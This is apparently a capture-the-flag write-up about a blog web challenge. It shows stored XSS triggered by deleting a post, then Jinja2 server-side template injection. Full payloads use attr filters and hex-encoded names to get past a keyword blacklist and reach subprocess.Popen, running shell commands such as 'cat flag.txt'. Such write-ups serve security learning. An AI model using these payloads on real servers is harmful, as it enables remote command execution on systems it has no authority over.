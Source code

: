 # My First Blog
## XSS 
We can enter the 'Title' and 'Content' fields on the post creation page. When a post is created, it is directed to the home page, the title entered in red text at the top of the page is written in this red area and the area where the posts are listed.

When input is given to the title and content areas using `<script>alert(1)</script>`, it is seen that after being redirected to the home page, no Javascript code runs and the entered code remains as a string. After trying many XSS payloads, the first thing I entered was to delete the post with the title `<script>alert(1)</script>`. When I went to the edit tab and deleted the post and redirected it to the home page, it seems that the Javascript code is working. It can be seen that the red warning block at the top of the page where the post title should be written is blank. When you try to delete an ordinary post, you may see that the title of the post should be written in that section.

To summarize, the XSS vulnerability is triggered if we write code that will trigger XSS in the post title and delete the post. But where can we go with XSS? By using the XSS vulnerability, any Javascript code can be written into the 'script' block. If you send a GET request to `ifconfig.me` using the Fetch API, it appears that the sent request runs in the attacker's browser through the client, without going to the server side. So it doesn't seem like XSS will gain us anything.

## SSTI
XSS's little brother is SSTI. So, what happens if a block of code that will trigger SSTI is written in the post title instead of code that will trigger XSS? After all, don't they both enable code to run in HTML? If we write `{{7*7}}` in the post title and delete the post, you can see that forty-nine, which is the answer to seven times seven, is written in the red information block that appears after being directed to the home page. So he had done the math. Neither HTML nor XSS can do this. It's SSTI time.

It can be determined which temrating engine is used by trying the generic SSTI codes, Jinja2. Jinja2, that is, Python, is running on the server. `{{'abc'.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[ If we try 0].strip()}}` the page makes fun of us a little. It is said to be a wildcard-based blacklist that severely restricts the attacker. No problem, Jinja2 filters allow us to run the necessary commands without using these wildcards.

For example:
The `{{'abc'.__class__}}` command is blocked by wildcards.
but this code is created using `attr` and `__class__` string value converted to hex numbers `{{'abc'|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")}}` We don't care much about wildcards if they are used. For more information about the `attr` filter and the filters that will be used in the rest of the solution, [source](https://jinja.palletsprojects.com/en/3.1.x/templates/#list-of-builtin-filters).

 ## Blacklist Bypass
We passed the wildcards a little bit. So what value should we give for `__subclasses__`? The number we need to use in this attack is `{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")| attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\ x5f\x5f")()}}` will be obtained from the list by entering this code. The number found is `{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(YOUR_INDEX_NUMBER)}}` It will be used in the command. In short, we only reached the Python `subprocess.Popen` module. Now it's time to access using this module. Related [article](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f).

`{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f" )|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\ x74\x69\x74\x65\x6d\x5f\x5f")(YOUR_INDEX_NUMBER)('ls',shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5f\ x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(0)}}` `subprocess.Popen` has been called, the next thing to do when each function is called is to open the parentheses and give the arguments. `...redacted...(YOUR_INDEX_NUMBER)("ls",shell=True,stdout=-1)` will be the function content we will use. Next, all that remains is to convert the payload into something we can use as `attr` and hex number.


## Sources
- https://jinja.palletsprojects.com/en/3.1.x/templates/#list-of-builtin-filters
- https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2

